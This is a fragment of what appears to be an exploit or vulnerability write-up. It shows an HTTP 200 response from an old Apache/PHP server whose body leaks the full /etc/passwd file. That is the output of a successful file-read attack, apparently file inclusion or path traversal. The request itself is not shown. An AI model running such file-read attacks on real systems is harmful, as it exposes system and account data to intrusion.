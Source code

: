 <br>
<i><b>HTTP Response :</b></i> 

<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 15px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">
HTTP/1.1 200 OK
Date: Sat, 26 Dec 2020 21:18:10 GMT
Server: Apache/2.2.3 (CentOS)
X-Powered-By: PHP/5.1.6
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
Pragma: no-cache
Connection: close
Content-Type: text/html; charset=UTF-8
Content-Length:  2349
[....]
&lt;pre>root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
news:x:9:13:news:/etc/news:
uucp:x:10:14:uucp:/var/spool/uucp:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
gopher:x:13:30:gopher:/var/gopher:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
nscd:x:28:28:NSCD Daemon:/:/sbin/nologin
vcsa:x:69:69:virtual console memory owner:/dev:/sbin/nologin
rpc:x:32:32:Portmapper RPC user:/:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
pcap:x:77:77::/var/arpwatch:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
avahi:x:70:70:Avahi daemon:/:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
avahi-autoipd:x:100:102:avahi-autoipd:/var/lib/avahi-autoipd:/sbin/nologin
oprofile:x:16:16:Special user account to be used by OProfile:/home/oprofile:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
apache:x:48:48:Apache:/var/www:/sbin/nologin
mysql:x:27:27:MySQL Server:/var/lib/mysql:/bin/bash
&lt;/pre>&lt;/p>&lt;/div>
&lt;/body>
&lt;/html>
</pre>
